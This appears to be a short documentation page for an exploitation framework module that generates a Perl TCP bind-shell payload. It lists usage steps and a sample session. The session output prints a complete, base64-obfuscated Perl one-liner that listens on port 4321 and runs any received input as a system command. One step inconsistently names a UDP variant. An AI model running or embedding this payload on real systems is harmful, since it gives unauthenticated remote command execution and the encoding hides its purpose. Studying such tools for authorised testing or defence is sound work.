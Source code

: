 ## Description

Module generates payload that creates interactive tcp bind shell by using perl one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/perl_bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates perl tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/perl_bind_tcp
rsf (Perl Bind TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Perl Bind TCP One-Liner) > run
[*] Running module...
[*] Generating payload
perl -MIO -e "use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKExvY2FsUG9ydCw0MzIxLFJldXNlLDEsTGlzdGVuKS0+YWNjZXB0OyR+LT5mZG9wZW4oJGMsdyk7U1RESU4tPmZkb3BlbigkYyxyKTt3aGlsZSg8Pil7aWYoJF89fiAvKC4qKS8pe3N5c3RlbSAkMTt9fTs='));"
```
